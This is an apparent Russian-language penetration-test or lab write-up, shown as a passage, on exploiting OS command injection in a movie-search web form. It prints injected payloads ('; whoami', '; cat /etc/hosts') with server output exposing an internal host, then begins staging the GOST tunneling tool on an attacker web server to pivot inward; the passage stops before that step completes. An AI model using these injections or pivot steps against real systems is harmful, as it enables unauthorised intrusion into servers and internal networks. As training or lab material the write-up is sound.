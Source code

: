 **Задействованные инструменты**

* GOST

* Ffuf

**Шаги выполнения**

1. Логика веб-приложения:

    * в окно поиска вводится название фильма, в ответ получаем имя режиссера, страну производства, год производства, рейтинг фильма
    
    В ходе тестирования в окне поиска была обнаружена уязвимость `OS Command Injection`, приводящая в удаленному выполнению кода на сервере:

    ```
    > Патриот ; whoami

    Режиссер => Роланд Эммерих
    Страна => США, Германия
    Год производства => 2000
    Рейтинг => 7.9
    www-data
    ```

2. Вывел содержимое `/etc/hosts`:

    ```
    > Патриот ; cat /etc/hosts

    Режиссер => Роланд Эммерих
    Страна => США, Германия
    Год производства => 2000
    Рейтинг => 7.9
    127.0.0.1       localhost

    192.168.46.54   company.local
    ```

    Теперь нам известен ip внутреннего ресурса.

3. Организовал проброс трафика  во внутреннюю сеть через утилиту `GOST`:

    *Терминал атакующей машины*

    ```
    $ cd /tmp

    $ mkdir http; cd http

    $ wget https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz

    $ gunzip gost-linux-amd64-2.11.5.gz

    $ mv gost-linux-amd64-2.11.5 gost

    $ python3 -m http.server 3000
    ```

    *Поле поиска веб-сервиса*
    